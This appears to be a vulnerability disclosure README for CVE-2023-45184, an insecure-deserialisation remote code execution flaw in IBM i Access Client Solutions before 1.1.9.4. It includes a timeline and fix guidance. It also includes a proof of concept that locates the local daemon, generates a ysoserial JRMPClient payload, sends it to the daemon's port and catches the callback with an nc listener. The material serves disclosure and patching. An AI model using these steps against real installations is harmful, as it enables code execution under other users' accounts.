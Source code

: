 # CVE-2023-45184
IBM i Access Client Solutions < 1.1.9.4 - Remote code execution via insecure deserialisation.

## Timeline
- Vulnerability reported to vendor: 22.09.2023
- New fixed 1.1.9.4 version released: 08.12.2023
- Public disclosure: 15.12.2023

## Description

IBM i Access Client Solutions uses insecure deserialisation for password storage and obtaining decryption key for password encryption. This could be used by local or remote attacker to execute code. 

The local server can be easily found using the `netstat' command:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ netstat -nltp | grep java
tcp6       0      0 :::34307                :::*                    LISTEN      3225094/java         off (0.00/0/0)
```

We can confirm details about this local server using the `ps` command:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ ps aux | grep java
mmajchr+ 3224938  6.8  0.9 13305316 301392 pts/6 Sl+  12:30   0:17 java -jar ./acsbundle_1.9.new.jar
mmajchr+ 3225094  0.3  0.2 11512420 79692 pts/6  Sl+  12:30   0:00 /usr/lib/jvm/java-17-openjdk-amd64/bin/java -Djava.class.path=/tmp/ACS.lm13910263510749358977.jar -Dvisualvm.display.name=ACS Daemon -Dcom.ibm.tools.attach.displayName=ACS Daemon com.ibm.iaccess.base.LmHybridServerImpl
mkubiak  3238934  0.0  0.0   6464  1992 pts/12   R+   12:44   0:00 grep --color=auto java
```

We can achieve code execution by the user `mmajchrowicz` using the `ysoserial` payload from the `mkubiak` account:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ id
uid=1012(mkubiak) gid=1012(mkubiak) groups=1012(mkubiak),27(sudo)

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ java -jar ysoserial.jar JRMPClient '127.0.0.1:9191' > jrmp.bin

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ (sleep 3; cat jrmp.bin) | nat -6 ::1 34307 

```

In second terminal we will receive connection after execution of payload by service:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ nc -lvnp 9191
listening on [any] 9191 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38012
JRMIK

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$
```

This problem was caused by an insecure deserialisation of network packets and user data. This issue is fixed in IBM i Access Client Solutions 1.1.9.4.

## Affected versions
< 1.1.9.4

## Advisory
Update IBM i Access Client Solutions to 1.1.9.4 or newer.

### References
* https://www.ibm.com/support/pages/node/7091942
* https://nvd.nist.gov/vuln/detail/CVE-2023-45184
